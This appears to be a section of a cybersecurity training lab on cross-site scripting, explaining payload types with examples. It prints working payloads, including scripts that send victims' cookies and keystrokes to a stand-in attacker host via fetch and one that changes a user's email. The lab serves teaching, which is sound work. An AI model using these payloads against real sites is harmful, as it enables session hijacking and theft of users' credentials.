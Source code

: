 ## Task 2: XSS Payloads - The Heart of the Attack

### Understanding Payloads

In XSS, the payload is the JavaScript code we wish to be executed on the target's computer. Every XSS payload consists of two components:

1. **The Intention**: What you want the JavaScript to accomplish
2. **The Modification**: Changes needed to make the code execute in specific scenarios

### Common XSS Payload Types

### Proof of Concept

The simplest payload demonstrates XSS capability by triggering an alert box:

```javascript
<script>alert('XSS');</script>
```

**Purpose**: Demonstrates that JavaScript execution is possible
**Impact**: Confirms vulnerability exists for further exploitation

### Session Stealing

Extracts user session cookies for account hijacking:

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**How it works**:
- `document.cookie` accesses the victim's cookies
- `btoa()` base64 encodes the cookies for safe transmission
- `fetch()` sends the encoded cookies to an attacker-controlled server

### Key Logger

Captures all keystrokes from the compromised webpage:

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Dangerous scenarios**:
- Login forms with username/password fields
- Credit card information entry
- Personal information collection

### Business Logic Exploitation

Targets specific application functions for unauthorized actions:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
